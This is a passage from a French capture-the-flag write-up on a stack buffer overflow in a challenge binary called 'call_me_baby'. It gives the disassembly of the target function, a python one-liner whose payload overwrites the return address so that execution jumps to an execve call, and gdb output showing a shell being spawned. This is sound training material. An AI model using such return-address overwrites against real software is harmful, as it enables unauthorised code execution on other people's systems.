 Le shell c'est bien lancé, le payload final est donc `"\x41"*64+"\x62\x61\x62\x79"+"\x00"*4+"\x66\x11\x40\x00"+"\x00"*4+"\x8a\x11\x40\x00"+"\x00"*4`.

## Solution 2

Cherchons le pointeur vers l'instruction ouvrant un shell et injectons là après le rbp :

```gdb
(gdb) disas call_me
Dump of assembler code for function call_me:
   0x000000000040118a <+0>:	push   %rbp
   0x000000000040118b <+1>:	mov    %rsp,%rbp
   0x000000000040118e <+4>:	sub    $0x10,%rsp
   0x0000000000401192 <+8>:	mov    %rdi,-0x8(%rbp)
   0x0000000000401196 <+12>:	lea    -0x8(%rbp),%rax
   0x000000000040119a <+16>:	lea    0xe67(%rip),%rdx        # 0x402008
   0x00000000004011a1 <+23>:	mov    %rdx,%rsi
   0x00000000004011a4 <+26>:	mov    %rax,%rdi
   0x00000000004011a7 <+29>:	call   0x401070 <strcmp@plt>
   0x00000000004011ac <+34>:	test   %eax,%eax
   0x00000000004011ae <+36>:	jne    0x4011cb <call_me+65>
   0x00000000004011b0 <+38>:	mov    $0x0,%edx
   0x00000000004011b5 <+43>:	mov    $0x0,%esi
   0x00000000004011ba <+48>:	lea    0xe4c(%rip),%rax        # 0x40200d
   0x00000000004011c1 <+55>:	mov    %rax,%rdi
   0x00000000004011c4 <+58>:	call   0x401060 <execve@plt>
   0x00000000004011c9 <+63>:	jmp    0x4011da <call_me+80>
   0x00000000004011cb <+65>:	lea    0xe43(%rip),%rax        # 0x402015
   0x00000000004011d2 <+72>:	mov    %rax,%rdi
   0x00000000004011d5 <+75>:	call   0x401030 <puts@plt>
   0x00000000004011da <+80>:	nop
   0x00000000004011db <+81>:	leave
   0x00000000004011dc <+82>:	ret
End of assembler dump.
(gdb) r <<< $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*72+b"\xb0\x11\x40\x00"+b"\x00"*4)')
Starting program: /home/coucou/Documents/CTF_SSI_2024/Call_me_baby/call_me_baby <<< $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*72+b"\xb0\x11\x40\x00"+b"\x00"*4)')
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Breakpoint 1, 0x00000000004011dd in vuln ()
(gdb) c
Continuing.
Write your love letter: 
process 6977 is executing new program: /usr/bin/dash
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 2: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 1: No symbol "vuln" in current context.
Error in re-setting breakpoint 2: No symbol "call_me" in current context.
Error in re-setting breakpoint 1: No symbol "vuln" in current context.
Error in re-setting breakpoint 2: No symbol "call_me" in current context.
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Error in re-setting breakpoint 1: No symbol "vuln" in current context.
Error in re-setting breakpoint 2: No symbol "call_me" in current context.
[Inferior 1 (process 6977) exited normally]
```
